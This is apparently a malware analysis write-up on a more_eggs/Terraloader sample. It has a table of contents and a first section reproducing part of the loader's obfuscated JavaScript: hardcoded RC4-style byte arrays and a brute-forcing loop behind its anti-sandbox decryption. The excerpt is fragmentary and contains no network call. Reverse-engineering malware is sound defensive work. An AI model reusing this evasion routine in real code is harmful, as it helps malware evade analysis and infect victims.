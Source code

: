 ## Easter's time : Hunting for get more_eggs
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Articles](#Articles)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>

###### The present analysis focus on the modifications with the last analysis of Terraloader (Cf Links)

###### The first layer rest the same just the parameters and the structure of the switch of the anti-sandbox method are differents.

```js
 var seq = [53,52,53,49,48,56,51,55,66,56,68,51,65,51,66,53,50,67,50,70,49,54,56,55,49,56,67,67,66,66,68,67,52,67,50,56,48,67,50,56,70,51,52,53,66,53,53,65,54,56,67,70,51];
  var base_rc4_array = [0,152,60,221,140,160,139,240,36,106,223,225,185,196,254,43,113,54,238,79,235,22,152,106,193,78,229,233,238,184,185,67,137,71,157,14,35,183,15,105,84,184,176,219,21,228,205,195,167,232,9,170,6];
  var jump = 0;
  var l = "";
  var lim = 0;
  var t1 = [];
  var tabex = [120,98,74,83,111,102,97,82,110,121,84,105,69,76] ;
  var index = 14;
  var i = 0;
  var checksum;
  // do while 
   do {
    l = (i + "");
    c = l.length;
    if (c === 1) {tabex[index] = filter(i);} 
    else {
    t1 = split_tab(l);
    tabex[index] = filter(t1[0]);
    switch (lim) {
      case 2:
        tabex[index + 1] = filter(t1[1]);
        break;
      case 3:
        tabex[index + 1] = filter(t1[1]);
        tabex[index + 2] = filter(t1[2]);
        break;
      case 4:
        tabex[index + 1] = filter(t1[1]);
        tabex[index + 2] = filter(t1[2]);
        tabex[index + 3] = filter(t1[3]);
        break;
      case 5:
        tabex[index + 1] = filter(t1[1]);
        tabex[index + 2] = filter(t1[2]);
        tabex[index + 3] = filter(t1[3]);
        tabex[index + 4] = filter(t1[4]);
        break;
    }
    }
```